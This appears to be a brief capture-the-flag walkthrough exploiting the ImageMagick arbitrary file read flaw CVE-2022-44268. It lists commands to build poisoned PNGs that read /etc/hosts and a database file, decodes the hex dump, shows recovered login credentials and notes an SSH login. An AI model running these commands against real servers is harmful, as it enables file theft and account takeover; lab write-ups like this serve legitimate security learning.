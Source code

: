 https://nvd.nist.gov/vuln/detail/CVE-2022-44268

Proof of Concept
https://github.com/kljunowsky/CVE-2022-44268

1. Clone git:
```
git clone https://github.com/kljunowsky/CVE-2022-44268.git 
```

2. Create  poisoned image:
```
python3 CVE-2022-44268.py --image imagetopoison.png --file-to-read /etc/hosts --output poisoned.png
```

3. Upload image

4. Check if exploit was successful:
```
python3 CVE-2022-44268.py --url http://vulnerable-imagemagick.com/uploads/vulnerable.png
```

![[Pasted image 20231107224159.png]]

Lets grab db
```
python3 CVE-2022-44268.py --image Untitled.png --file-to-read /var/db/pilgrimage --output poisoned.png
```

![[Pasted image 20231108081109.png]]

.... some shit with decoding. After some search i found solution - read raw 
![[Pasted image 20231108081606.png]]

and wohoo. we have a db dump
![[Pasted image 20231108081906.png]]

so lets put this into file and convert from hex
![[Pasted image 20231108082546.png]]

lets checking db and we will find some creds 
username: emily
passwd: abigchonkyboi123
![[Pasted image 20231108082853.png]]

ssh with creds and bingo!
![[Pasted image 20231108083517.png]]
